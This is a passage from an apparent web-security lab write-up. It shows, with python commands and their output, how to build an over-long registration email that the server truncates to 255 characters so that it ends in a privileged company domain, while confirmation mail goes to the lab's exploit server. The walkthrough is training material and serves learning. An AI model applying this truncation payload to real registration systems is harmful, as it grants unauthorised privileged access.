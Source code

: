 ![picture 179](/assets/images/426058b3c2e06403498b693f9c719d4591b73e04d50f9ac3beeaf5e13db0d20c.png)  

Our email has got trimmed. And it's exactly 255 characters long:

```
lukaosojnik@Yokai ~ % python3 -c "print(len('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattac'))"
255
```

Now let's try to have it trimmed in a way so our Email ends with `@dontwannacry.com`.

Start with `attacker@dontwannacry.com` continued with our address. (**after trial an error, i've had to remove a @ from our address otherwise email would not get accepted!**)

```
lukaosojnik@Yokai ~ % python3 -c "print(len('attacker@dontwannacry.com'))"                                                                  
25
```
We're at 25 Bytes, we need to divide that from 255 and that's our filler

```
lukaosojnik@Yokai ~ % python3 -c "print(len('a'*230 + 'attacker@dontwannacry.com'))"
255

lukaosojnik@Yokai ~ % python3 -c "print('a'*230 + 'attacker@dontwannacry.com' + 'attacker@exploit-0a2e00bc04962b4bc025167101ea00bf.exploit-server.net')"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@dontwannacry.comattacker@exploit-0a2e00bc04962b4bc025167101ea00bf.exploit-server.net
```
Now register and login!
